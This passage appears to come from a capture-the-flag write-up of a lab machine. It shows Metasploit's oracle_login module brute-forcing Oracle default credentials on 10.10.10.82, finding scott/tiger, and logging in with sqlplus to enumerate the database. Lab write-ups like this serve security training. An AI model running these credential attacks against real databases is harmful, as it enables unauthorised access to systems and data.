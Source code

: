 # Credential brute force

Based from the results, we identified four SIDs.  
Next, we’ll need to identify valid credentials in order to authenticate to the database.  
For this task, we can use a metasploit auxiliary module called oracle_login. 

{% highlight bash %}
msf5 > use admin/oracle/oracle_login
msf5 auxiliary(admin/oracle/oracle_login) >
msf5 auxiliary(admin/oracle/oracle_login) > options

Module options (auxiliary/admin/oracle/oracle_login):

   Name     Current Setting                                                              Required  Description
   ----     ---------------                                                              --------  -----------
   CSVFILE  /usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv  no        The file that contains a list of default accounts.
   RHOST                                                                                 yes       The Oracle host.
   RPORT    1521                                                                         yes       The TNS port.
   SID      ORCL                                                                         yes       The sid to authenticate with.

msf5 auxiliary(admin/oracle/oracle_login) > set RHOST 10.10.10.82
RHOST => 10.10.10.82
msf5 auxiliary(admin/oracle/oracle_login) > set SID XE
SID => XE
msf5 auxiliary(admin/oracle/oracle_login) > run -j
[*] Auxiliary module running as background job 0.

[*] Starting brute force on 10.10.10.82:1521...
[+] Found user/pass of: scott/tiger on 10.10.10.82 with sid XE
[*] Auxiliary module execution completed
{% endhighlight %}

Alright! We found a valid credentials.  
By the way, we can also figure this one out if we research for common default oracle credentials.  
Valid credentials mean that we can connect to the **XE** instance and start querying the database for possible information. As it turns out, scott is also granted **SYSBDA** privilege. Think of it as something like sudo - it gives you extra flexibility and higher privileges in case you want to do some database altering, user administration and the list continues.  

# Oracle Database Penetration Testing 

Now that we have a valid SID and credentials, we can connect to the database for manual enumeration.  

{% highlight zsh %}
╭─[/opt/oracle]─[root@Arthorias]─[0]─[4438]
╰─[:)] # sqlplus scott/tiger@10.10.10.82:1521/XE

SQL*Plus: Release 12.1.0.2.0 Production on Tue Oct 3 12:56:27 2019

Copyright (c) 1982, 2014, Oracle.  All rights reserved.

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select * from v$version;
BANNER
--------------------------------------------------------------------------------
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production